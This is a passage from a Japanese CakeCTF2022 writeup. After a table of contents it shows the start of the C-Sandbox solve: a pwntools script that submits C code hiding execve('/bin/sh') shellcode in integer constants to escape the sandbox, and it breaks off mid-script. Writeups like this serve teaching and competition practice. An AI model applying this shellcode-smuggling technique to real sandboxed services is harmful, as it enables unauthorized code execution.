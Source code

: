 ```yaml
---
title: CakeCTF2022 writeup
date: 2022-09-05 10:57:12
tags: [ctf,writeup,jp]
---
```


CakeCTF2022にKUDoSで参加して9位でした。
楽しさと悔しさと糸井重里

目次
- [misc](#misc)
	- [C-Sandbox](#C-Sandbox)
- [rev](#rev)
	- [nimrev](#nimrev)
	- [luau](#luau)
	- [zundamon](#zundamon)
	- [kiwi](#kiwi)
- [pwn](#pwn)
	- [str.vs.cstr](#str.vs.cstr)
	- [welkerme](#welkerme)
	- [smal_arey](#smal_arey)
- [おまけ](#おまけ)

## misc
### C-Sandbox
朝方に手をつけてかなり限界だったので何が禁止されているのかは調べてない。
とりあえずbring your own gadgetする。
flagからも第一の想定解だったと思う

```python
#!/usr/bin/python3
from pwn import *
import sys

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

HOST = "misc.2022.cakectf.com"
PORT = 10099

conn = remote(HOST, PORT)

src = """
char binsh[] = "/bin/sh";
char **argv = {binsh, 0};
static void win()
{
	unsigned long a= 0x9007eb00404038be;
	unsigned long b= 0x9008eb00404030bf;
	unsigned long c= 0x9090900aebd23148;
	unsigned long d= 0x90050f3bb0c03148;
	printf("%lx",a);
	printf("%lx",b);
	printf("%lx",c);
	printf("%lx",d);
};
int main()
{
	unsigned long ptr[2];
	unsigned long tmp;
	tmp = ptr[5] - 0x24083; // libc address(not used)
```